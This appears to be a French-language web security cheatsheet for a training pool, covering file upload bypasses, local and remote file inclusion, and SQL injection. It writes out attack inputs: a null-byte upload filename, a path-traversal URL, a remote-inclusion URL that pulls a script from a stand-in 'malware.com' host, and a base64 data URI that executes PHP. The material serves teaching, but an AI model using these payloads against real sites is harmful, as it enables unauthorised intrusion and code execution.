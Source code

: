 #<center>PoC Pool: Computer Security</center>
#<center>Web Server: Cheatsheet</center>

Vous avez compris que la sécurité d'une application web se joue coté serveur
mais vous avez également compris qu'une petite erreur de programmation
peut avoir de lourdes conséquences.

## HyperText Transfer Protocol

L'HTTP est un protocol complexe. Votre navigateur l'utilise en permanence
pour récupérer les ressources web qu'il vous affiche ensuite. Seulement,
votre navigateur ne vous montre que très peu de choses et il convient
de souvent utiliser la console du navigateur ou bien cURL losqu'on
fait de la sécurité.

[dirb](https://tools.kali.org/web-applications/dirb) est un bon outil pour
analyser l'arborescence d'une application de manière automatisée. Vous pouvez
alors espérer tomber sur des chemins intéressants tels qu'un dossier de test
ou de backup oublié qui vous donnera accès à des sources PHP.

## PHP: Hypertext Preprocessor

PHP est un langage très utilisé pour écrire des applications web.

Il est très facile d'écrire du code vulnérable en PHP. Une entrée utilisateur
ne doit JAMAIS etre prise pour valide ou bien formée.

## Upload

En vrac, quelques tricks pour exploiter une faille upload :

  * Le nullbyte `file.php%00.jpg`
  * Un changement de [type MIME](https://fr.wikipedia.org/wiki/Type_MIME) en
  interceptant la requete avec Burp ou autre
  * Une double extension (assez rare, repose sur une mauvaise configuration du
  serveur WEB)

## Local File Inclusion

Exemple d'URL vulnérable :

```
http://vulnerable.com/gallery.php?image=../index.php
```

Ce genre de faille est souvent due à une mauvaise utilisation de la fonction
`include()`.

## Remote File Inclusion

Meme principe, sur une URL externe plutot que interne. Du genre :

```
http://vulnerable.com/gallery.php?ducment=http://malware.com/expoit.php
```

On peut alors forcer l'exécution de notre propre script PHP.

On note l'utilisation d'un DataURI qui évite d'avoir à déployer un serveur
et tout :

```
http://vulnerable.com/gallery.php?document=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B
```

On a ici un `<?php phpinfo() ?>` en base64. Cette base nous permet d'éviter
tout problème de caractère filtré, non-imprimable, pas URL-friendly...

## SQL

L'objectif est de forcer le serveur a exécuter des bouts de requete SQL que
nous allons injecter au milieu d'une requete valide. On peut alors faire
fuiter des informations ou simplement forcer un resultat particulier pour
par exemple obtenir une session sur un site.

Sans résultat direct sur la page (en effet, il est rare qu'un site vous affiche
à nouveau votre mot de passe après connexion...), il faut faire une
injection à l'aveugle. Regardez un peu [ce pdf](http://gits.hydraze.org/pdf/Blind-sql-injections.pdf).

Regardez donc cette [merveilleuse collection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20injection)
de ressources.
